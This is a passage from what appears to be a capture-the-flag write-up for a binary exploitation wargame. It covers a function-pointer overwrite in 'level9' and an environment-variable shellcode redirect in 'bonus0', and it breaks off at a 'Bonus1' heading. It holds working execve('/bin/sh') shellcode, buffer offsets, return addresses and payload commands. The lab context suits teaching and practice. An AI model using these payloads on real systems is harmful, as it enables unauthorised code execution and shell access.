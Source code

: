 
We have to erase the address `0x08048848`. It will be executed by `edx`. It contains a reference to a pointer of `N::operator+(N&)` method.

But first, edx dereferences the pointer. We have to put the address of shellcode as prefix.

```shell
SHELLCODE="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" # Length: 28
SHELLCODE_ADDRESS="\x10\xa0\x04\x08" # Buffer address + 4
PADDING=`python -c 'print("A" * 76)'` # OFFSET=108 - SHELLCODE_LENGTH=28 - SHELLCODE_ADDRESS=4
RETADDRESS="\x0c\xa0\x04\x08" # Buffer address

python -c "print('$SHELLCODE_ADDRESS' + '$SHELLCODE' + '$PADDING' + '$RETADDRESS')" > /tmp/exploit9

~/level9 $(cat /tmp/exploit9)
```

---

## Bonus0 - Code redirection using environnment variable

There is 2 prompts that read at most 4096. Then replace the first \n with a \0. And then extract 20 chars and concatenate them together. But if there is no \n is the first 20 characters, there is a problem.

### Resolve

```shell
gdb-peda$ run
(stdin) ABCDEFGHIJKLMNOPQRSTUVWXYZ (A-T 20)
(stdin) abcdefghijklmnopqrstuvwxyz
  EIP: 0x6d6c6b6a ('jklm')
  Invalid $PC address: 0x6d6c6b6a
  Stopped reason: SIGSEGV

export SHELLCODE=$(python -c 'print "\x90" * 0xff + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"')

/tmp/getenv SHELLCODE ~/bonus0
  0xbffff76e

python -c 'print "A" * 4095 + "\n" + "abcdefghi" + "\x6e\xf7\xff\xbf" + "nopqrstuvwxyz"' > /tmp/exploit10

cat /tmp/exploit10 - | ~/bonus0
```

---

## Bonus1 - Exploit signed / unsigned types to bypass checks
